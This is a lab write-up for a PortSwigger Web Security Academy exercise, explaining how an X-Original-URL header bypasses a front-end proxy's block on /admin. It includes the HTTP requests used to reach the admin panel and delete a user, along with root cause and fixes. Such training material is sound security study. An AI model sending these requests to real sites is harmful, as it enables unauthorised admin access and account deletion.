



# URL-Based Access Control Can Be Circumvented

| Field | Value |
|---|---|
| **Difficulty** | Practitioner |
| **Category** | Access Control |
| **Lab URL** | `https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented` |

---

## Lab Objective

The admin panel is at `/admin` and requires no authentication to read — but a front-end proxy blocks external requests to that path. The trick is that the disingenuous framework behind it also honors the `X-Original-URL` header. Get into the admin panel and delete `carlos`.

---

## Skills Learned

- Access control enforced by URL filtering is only as strong as the system doing the filtering
- How `X-Original-URL` can make the backend handle a different path than the one the front-end "saw"
- Confirming header behavior before relying on it

---

## Recon

Logged in as `wiener:peter`. Requested `/admin` directly and got hit with:

```text
HTTP/2 403 Forbidden
{"error":"Access denied"}
```



The response is dead simple — a plain JSON error. No fancy styling, no app chrome. That's a tell: it's coming from something sitting **in front of** the application (a front-end or reverse proxy), not from the app itself. The front-end is the thing deciding that `/admin` is off-limits.

---

## Finding the Vulnerability

If the front-end does the URL blocking, the question becomes: *does the app behind it actually read the real request line, or does it trust some header?*

Many frameworks support `X-Original-URL` / `X-Rewrite-URL` — the header lets a front-end hand a "corrected" URL to the backend. If the backend reads that and the front-end doesn't, I might be able to smuggle `/admin` past the filter by sending a harmless URL in the request line and the real one in the header.

Before trusting that, I confirmed it works. I sent `GET /` with `X-Original-URL: /invalid`:

```
GET / HTTP/2
Host: 0afb0006046599f2810043d1001b003c.web-security-academy.net
X-Original-URL: /invalid
```

The backend returned a 404 for `/invalid` — the request line said `/`, so the front-end was fine with it, but the **application** clearly went looking for `/invalid`. That's proof the backend is honoring the header.

---

## Exploitation Steps

1. Requested `/admin`, got `403 Access denied`.
2. Sent `GET /` with `X-Original-URL: /invalid` — got a "not found", confirming the backend uses the header.
3. Changed the header to `/admin`:

```text
GET / HTTP/2
X-Original-URL: /admin
```

The admin panel loaded. The page listed two users with delete links:

```html
<a href="/admin/delete?username=carlos">Delete</a>
```

4. To delete carlos, I kept the visible URL harmless and injected the action into the header:

```text
GET /?username=carlos HTTP/2
X-Original-URL: /admin/delete
```

This returned a `302 Found` redirecting to `/admin`, and `carlos` was gone.

---

## Payloads

Test the header is honored:

```text
GET / HTTP/2
X-Original-URL: /invalid
```

Reach the panel:

```text
GET / HTTP/2
X-Original-URL: /admin
```

Delete carlos:

```text
GET /?username=carlos HTTP/2
X-Original-URL: /admin/delete
```





---

## Why It Works

The front-end looks at the **request line** URL (`/`) and lets it through because that's harmless. The **backend** ignores the request line path in favor of `X-Original-URL` and processes `/admin` (or `/admin/delete?username=carlos`) as if it had arrived normally.

So the two components disagree about what URL to trust. The front-end filters the one it *sees*, the app acts on the one the attacker *controls*. That gap is the whole vulnerability.

---

## Root Cause

Access control was delegated to a front-end that only inspects the request line, while the backend blindly took the `X-Original-URL` header. The backend never re-checked authorization itself, so once the path reached it, there was nothing to stop it.

---

## Impact

An unauthenticated (or low-privilege) user can reach admin-only paths by re-writing the URL via the header. On a real site that's data exposure, user deletion, or admin takeover — anything the admin panel can do.

---

## Fix

- Verify authorization **on the backend**, for the actual requested resource, on every request
- Know how your framework handles `X-Original-URL` / `X-Rewrite-URL` — default to off / ignore these headers when they aren't needed
- Strip or reject unexpected headers at the edge instead of forwarding them blindly
- Do least-privilege cleanly: the admin functions should check the authenticated user's role work with ACLs, not gate on a URL

---

## Key Takeaways

- That plain, unstyled 403 is a hint that a proxy/front-end is doing the filtering — worth remembering
- Before building an exploit on a header, prove it: send a harmless probe (`/invalid`) and read the response
- The `X-Original-URL` / `X-Rewrite-URL` header family is a nice get whenever an edge device is in the way
- When a request line looks "clean" but the app serves something else, check what header it's really acting on

---

## Related Labs

- [13 - Referer-Based Access Control Can Be Circumvented](../13%20-%20Referer-Based%20Access%20Control%20Can%20Be%20Circumvented/README.md) — both bypass a front-end access check via a header (`X-Original-URL` vs `Referer`)
- [11 - Method-Based Access Control Can Be Circumvented](../11%20-%20Method-Based%20Access%20Control%20Can%20Be%20Circumvented/README.md) — another way of evading an incomplete access-control check

---

## References

- [PortSwigger: Access control](https://portswigger.net/web-security/access-control)
- [PortSwigger: Access control circumvention via the X-Original-URL header](https://portswigger.net/web-security/access-control#circumventing-access-control-schemes)
- [PortSwigger: Lab — URL-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)
- [OWASP: Access Control in multi-tier apps](https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html)